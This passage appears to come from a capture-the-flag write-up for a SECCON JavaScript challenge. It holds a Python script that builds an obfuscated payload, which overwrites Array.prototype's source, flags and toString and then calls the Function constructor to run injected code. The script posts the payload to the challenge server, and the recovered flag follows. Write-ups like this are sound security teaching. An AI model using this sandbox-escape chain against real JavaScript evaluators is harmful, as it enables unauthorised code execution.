 ```python
lines = [
    # [ ].__proto__.source = "**"
    f'[][{make_str("__proto__")}][{make_str("source")}] = {make_str("**")}',

    # [ ].__proto__.flags = func_body
    f'[][{make_str("__proto__")}][{make_str("flags")}] = {make_str(func_body)}',

    # [ ].__proto__.toString = / /.toString
    f'[][{make_str("__proto__")}][{make_str("toString")}] = //[{make_str("toString")}]',

    # -> [].toString() === `/**/${func_body}`


    # Function` `` `
    f'[][{make_str("constructor")}][{make_str("constructor")}]````',
]
expr = ";".join(lines)

res = httpx.post(
    BASE_URL,
    json={
        "expr": expr,
    },
)
print(res.text)
```

### Flag[^whitespace-js-flag]

```
SECCON{P4querett3_Down_the_Bunburr0ws}
```

[^whitespace-js-flag]: https://store.steampowered.com/app/1628610/
